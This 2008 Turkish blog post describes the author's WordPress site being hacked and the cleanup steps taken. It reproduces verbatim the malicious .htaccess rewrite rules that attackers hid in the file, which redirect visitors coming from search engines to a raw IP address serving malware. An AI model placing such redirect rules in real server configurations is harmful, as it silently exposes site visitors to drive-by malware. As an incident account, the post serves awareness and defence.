 ```yaml
---
layout: post
title: Hacklendik
Date: 2008-11-18 22:15
Category: Haberler
tags: apache, ftp, google, hack, htaccess, malware, WordPress
---
```


Bu gün siteme girmeye çalışan Firefox ve Google üzerinden girmeye
çalışanların karşılaştığı bir sorun sitem zararlı içerik olduğu için
engellenmiş. Aslında tüm arama sitelerinden gelen yönlendirmeler de aynı
sorun varmış. En sonunda anladım. Uzun aramalar sonunda
[http://wordpress.org/support/topic/217700][] Bu linkdeki bilgiler
doğrultusunda htcaacces içine girilen yönlendirme kodu nedeni ile
yaşamışım bu sorunları. Ayrıca yazılarımın için yerleştirilmiş bir
iframe reklam linkeleri de var tabi. Yukarıdaki linkdeki işlemleri tek
tek yaptım - htaccess dosyasını sildim. - ftp şifremi değiştirdim -
hostingh firmamdan sitemin bulnduğu klasörü bir virüs, malware
taramasından geçirmelerini istedim. Sorunun ana nedeni htaccess
dosyasında ki kodlar olarak görünüyor. Başta uzunca bir boşluktan sonra
aşağıdaki kod yazıyordu.

RewriteEngine On RewriteCond %{HTTP_REFERER} .*google.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*aol.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*msn.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*altavista.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*ask.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*yahoo.*$ [NC]
RewriteRule .* http://89.28.13.202/in.html?s=ix [R,L]

Bu arada cute ftp'de htaccess görüntülemeyide öğrendik.
[http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html][]
Muhtemelen sorun haftasonu benim kalıcı bağlantılarım gittinde oldu ve
ben bunu anlamadım. Asıl sorunun ise sitemi yahoo.com'da aradığımda
karşılaştım, linke tıkladığımda bilgisayarıma zararlı yazılım eklemeye
çalıştı. Zaten yukarıdaki kodda da bu açıkça görülüyor, siteme direk
girişlerde değilde arama sonuçlarından gelince yüklenmeye çalışıyor. Ama
hesap edemedikleri şey google'un bunu görüp sitemi kapatması. Google'un
ve Firefox'un sitemi engellemeleri daha bitmedi. Google Web Yöneticis
aracındaki incelemeye alın işaret kutunu işaretledim ve
StopBadware.org'daki formuda doldurdum. Neyse hayırlısı bakalım. Bu
durumu gören ve beni uyaran tüm arkadaşlara teşekkürler. Umarım bu tip
sorunlarla bi daha karşılaşmayız.

## Ek olarak

Ayrıca http://www.fatihhayrioglu.com/?ref=siteAdi gibi linkler var.
Bunlarıda robots.txt User-agent: * Disallow: /*ref=* Disallow:
/*?ref= kodlarını ekleyerek düzelttim. İşin ilginci bu linkleri
google'un arama aracı nasıl buluyor.

  [http://wordpress.org/support/topic/217700]: http://wordpress.org/support/topic/217700
  [http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html]: http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html
